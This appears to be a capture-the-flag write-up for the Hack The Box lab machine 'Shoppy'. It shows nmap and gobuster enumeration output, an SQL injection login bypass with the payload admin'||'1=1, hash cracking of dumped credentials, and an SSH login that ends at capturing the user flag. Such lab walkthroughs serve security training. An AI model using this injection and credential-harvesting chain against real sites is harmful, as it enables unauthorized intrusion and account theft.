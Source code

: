 
<h1 align=center>Shoppy</h1>

## Part 1 : Discovery
## Scanning
```sudo nmap -sVC -T4 -p- target_ip``` gives us the result : 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This box is hosting a web application on port 80 called shoppy.htb. <br/>

This website is unreachable. We have to specifiy this machines' IP and domain into our local DNS Resolver.<br/>
- execute : ```sudo vi /etc/hosts/```
- insert : ``` target_ip  shoppy.htb```
- save and quit

## Investigating the website
We should discover if there are any subdomains or virtual hosts that are serving under the same ip

### Finding directories 
- execute ```gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt``` to find directories under this domain<br/> result :
```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/03 16:30:35 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/11/03 16:33:12 Finished
===============================================================

```


### Finding Virtual Hosts
- execute ```gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt``` to find any active vhosts serving under this domain.<br/> result : <br/>
```
gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/03 16:30:45 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/03 16:41:26 Finished
===============================================================
```
- We can see that there is a vhost called ```mattermost.shoppy.htb``` serving under this domain.
- We should insert this next to the line that we created at our local DNS Resolver.

## Exploiting.
We can see that there are some login and admin directories that opens a new page and asks user to login. We may bypass authentication via SQLI.
- go to http://shoppy.htb/login
- enter ```admin'||'1=1``` into username
This will bring us the admin page that we can search anything in the admin page. <br/>
- I have decided to use ```admin'||'1=1``` here once again to see if there are anything hidden in the Database.
- This gives us a download button which will download some creds about the users.
- Crack the hashes using hash crackers.
- This will give you the joshes' password.
- Now enter joshes' creds at mattermost.shoppy.htb.
- We can find that jaeger said josh to connect to the machine with given creds.
- Now we should form a connection via ssh to the target machine using the given creds.
### SSH connection
- execute ```ssh -l jaeger```
- enter the password given at mattermost.shoppy.htb
```
ssh -l jaeger 10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  3 08:08:12 2022 from your_ip
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```
- execute ```cat user.txt``` to capture the user flag.
